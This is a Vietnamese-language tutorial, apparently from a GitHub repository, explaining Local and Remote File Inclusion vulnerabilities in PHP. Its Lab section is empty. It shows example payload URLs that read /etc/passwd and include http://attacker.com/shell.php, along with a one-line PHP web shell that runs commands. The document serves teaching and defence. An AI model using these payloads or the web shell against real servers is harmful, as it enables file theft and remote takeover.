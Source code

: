 # File Inclusion
>Tên tài liệu: File Inclusion<br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 13/10/2024
>
# Mục Lục
[1. Khái niệm và các loại ](#p1) <br>
[2. Local File Inclusion (LFI)](#p2) <br>
[3. Remote File Inclusion (RFI)](#p3) <br>
[4. Lab ](#p4) <br>
# Nội dung
<a id="p1"></a>
## 1. Khái niệm và các loại
Inclusion là tính năng của ngôn ngữ lập trình giúp lập trình viên dễ dàng quản lý, tổ chức và tái sử dụng mã nguồn. <br>
File Inclusion là một lỗ hổng bảo mật trong ứng dụng web, xảy ra khi ứng dụng cho phép người dùng chỉ định tập tin (file) sẽ được nhúng vào hoặc thực thi bởi máy chủ. <br>
Có hai loại phổ biến: <br>
- Local File Inclusion (LFI)
- Remote File Inclusion (RFI) <br>
Các hàm inclusion nhận tham số truyền vào là một đường dẫn tới File hoặc một URL tùy theo ngôn ngữ lập trình <br>
File Inclusion là biến thể của Path Traversal
<a id="p2"></a>
## 2. Local File Inclusion (LFI)
Local File Inclusion (LFI) là lỗ hổng cho phép kẻ tấn công đưa nội dung của một tập tin có sẵn trên máy chủ vào ứng dụng. Khi ứng dụng không kiểm tra kỹ đầu vào, hacker có thể lợi dụng để đọc các tập tin nhạy cảm như /etc/passwd trên hệ thống Linux, hoặc các file cấu hình chứa thông tin quan trọng. <br>
Kịch bản phổ biến là ứng dụng dùng hàm include, require, include_once hoặc require_once trong PHP để nhúng file theo đường dẫn mà người dùng cung cấp. Nếu không xử lý đầu vào cẩn thận, hacker có thể thay đổi đường dẫn này để truy cập tập tin nhạy cảm. <br>
Ví dụ: <br>
URL sau: <br>
```
http://testphp.com/index.php?page=about.php
```
Nếu không kiểm tra kỹ đầu vào page, hacker có thể chỉnh sửa URL để: <br>
```
http://testphp.com/index.php?page=/etc/passwd
```
<a id="p3"></a>
## 3. Remote File Inclusion (RFI)
Remote File Inclusion (RFI) là lỗ hổng cho phép hacker nhúng và thực thi một tập tin từ một máy chủ khác. Điều này có thể dẫn đến việc thực thi mã độc hại trên máy chủ đích. RFI nguy hiểm hơn LFI vì nó cho phép hacker đưa mã độc vào từ xa và có thể chiếm quyền điều khiển máy chủ. <br>
Lỗ hổng này thường xảy ra khi ứng dụng web chấp nhận URL từ xa làm tham số và sử dụng hàm `include` hoặc `require` mà không kiểm tra kỹ đầu vào. <br>
Ví dụ : <br>
URL sau : <br>
```
http://testphp.com/index.php?page=http://attacker.com/shell.php
```
Tệp shell.php có nội dung : `<?php system($_GET['cmd']); ?>` <br>
Từ đó tệp shell.php sẽ được tải về và thực thi trên server. <br>
Lưu ý: RFI sẽ không hoạt động nếu có prefix đứng trước tham số URL
```
<?php
$page = $_GET["page"];
include("module/".$page);
echo $content;
?>
```
Thì module/http://attacker.com/shell.php sẽ không hoạt động <br>
<a id="p4"></a>
## 4. Lab


